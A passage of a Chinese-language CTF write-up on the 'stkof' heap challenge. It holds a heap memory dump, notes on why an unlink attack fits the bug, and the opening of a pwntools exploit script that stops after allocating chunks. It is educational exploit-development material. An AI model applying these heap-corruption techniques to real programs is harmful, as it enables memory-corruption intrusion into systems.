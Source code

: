 ```plain
0x147a450	0x0000000000000000	0x0000000000000061	........a.......
0x147a460	0x0000000000000000	0x0000000000000000	................
0x147a470	0x0000000000000000	0x0000000000000000	................
0x147a480	0x0000000000000000	0x0000000000000000	................
0x147a490	0x0000000000000000	0x0000000000000000	................
0x147a4a0	0x0000000000000000	0x0000000000000000	................
0x147a4b0	0x0000000000000000	0x0000000000000061	........a.......
0x147a4c0	0x0000000000000000	0x0000000000000000	................
0x147a4d0	0x0000000000000000	0x0000000000000000	................
0x147a4e0	0x0000000000000000	0x0000000000000000	................
0x147a4f0	0x0000000000000000	0x0000000000000000	................
0x147a500	0x0000000000000000	0x0000000000000000	................
0x147a510	0x0000000000000000	0x0000000000020af1	................ <-- Top chunk
```

这是第二第三个chunk。

unlink的话，针对的是small chunk、large chunk，所以不能被放到fastbin里面。

这道题为什么不能使用fastbin attack？因为chunk被free之后，不会再被分配，chunk的下标不会减少，只会增加。为什么unlink需要在一个chunk里面伪造chunk？其实我个人觉得，也可以修改原来的chunk，不过后面我再试一试。暂且使用在chunk里面伪造chunk的办法，比较方便。



----





完整exp：

```python
# -*- coding: utf-8 -*-
import threading
import time
from pwn import *

c = process('./stkof')
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')



def addchunk(size):
    c.sendline('1')
    c.sendline(str(size))
    c.recvuntil('OK\n')

def edit(idx,cont):
    c.sendline('2')
    c.sendline(str(idx))
    c.sendline(str(len(cont)))
    c.send(cont)
    c.recvuntil('OK\n')

def free(idx):
    c.sendline('3')
    c.sendline(str(idx))
    

addchunk(0x100)#1
addchunk(0x30)#2
addchunk(0x80)#3
addchunk(0x20)#4

#我们想要将第二个chunk的地址，劫持到一个地方，通过修改这个地址，对，就是这个地址，是用户使用的地址，
#是直接写入的地址。
```